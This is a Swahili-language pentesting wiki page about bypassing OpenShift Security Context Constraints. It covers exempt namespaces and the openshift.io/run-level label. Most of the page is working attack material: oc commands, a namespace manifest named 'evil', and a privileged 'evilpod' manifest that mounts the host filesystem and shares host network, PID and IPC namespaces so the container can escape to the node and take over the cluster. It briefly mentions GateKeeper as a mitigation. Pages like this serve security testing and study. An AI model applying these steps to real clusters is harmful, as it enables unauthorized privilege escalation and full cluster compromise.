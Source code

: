 # Openshift - Kupuuza SCC

**Mwandishi halisi wa ukurasa huu ni** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## Nafasi za Haki Maalum

Kwa chaguo-msingi, SCC haitumiki kwenye miradi ifuatayo:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Ikiwa unaweka podi ndani ya mojawapo ya nafasi hizo, hakuna SCC itakayotekelezwa, kuruhusu uwekaji wa podi zenye haki maalum au kufunga mfumo wa faili wa mwenyeji.

## Lebo ya Nafasi

Kuna njia ya kulemaza maombi ya SCC kwenye podi yako kulingana na nyaraka za RedHat. Utahitaji kuwa na angalau moja ya idhini ifuatayo:

- Unda Nafasi na Unda Podi kwenye Nafasi hii
- Hariri Nafasi na Unda Podi kwenye Nafasi hii
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
The specific label `openshift.io/run-level` enables users to circumvent SCCs for applications. As per RedHat documentation, when this label is utilized, no SCCs are enforced on all pods within that namespace, effectively removing any restrictions.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Ongeza Lebo

Kuongeza lebo katika eneo lako:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Kuunda eneo la jina na lebo kupitia faili ya YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Sasa, vikasha vipya vyote vilivyoundwa kwenye eneo la jina haipaswi kuwa na SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

Kukosekana kwa SCC, hakuna vizuizi kwenye ufafanuzi wa kasha lako. Hii inamaanisha kwamba kasha la nia mbaya linaweza kuundwa kwa urahisi ili kutoroka kwenye mfumo wa mwenyeji.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Sasa, imekuwa rahisi kuinua mamlaka ya kupata mfumo wa mwenyeji na baadaye kuchukua udhibiti wa kikundi kizima, kupata mamlaka ya 'cluster-admin'. Tafuta sehemu ya **Node-Post Exploitation** kwenye ukurasa ufuatao:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Lebo za desturi

Zaidi ya hayo, kulingana na usanidi wa lengo, baadhi ya lebo / maandishi ya desturi yanaweza kutumika kwa njia ile ile kama hali ya shambulio la awali. Hata kama sio kwa hiyo, lebo zinaweza kutumika kutoa ruhusa, kizuia au la si rasilimali maalum.

Jaribu kutafuta lebo za desturi ikiwa unaweza kusoma baadhi ya rasilimali. Hapa kuna orodha ya rasilimali za kuvutia:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Orodhesha majina ya nafasi zenye mamlaka
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Shambulizi la juu

Katika OpenShift, kama ilivyodhihirishwa awali, kuwa na idhini ya kuweka podi katika eneo la jina lenye lebo ya `openshift.io/run-level` inaweza kusababisha kuchukuliwa kwa urahisi wa kikundi. Kutoka mtazamo wa mipangilio ya kikundi, hii **haiwezi kuzimwa**, kwani ni sehemu ya kubuni ya OpenShift.

Hata hivyo, hatua za kupunguza madhara kama **Open Policy Agent GateKeeper** inaweza kuzuia watumiaji kuweka lebo hii.

Ili kudukua sheria za GateKeeper na kuweka lebo hii kutekeleza kuchukua kikundi, **wadukuzi watahitaji kutambua njia mbadala.**

## Marejeo

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
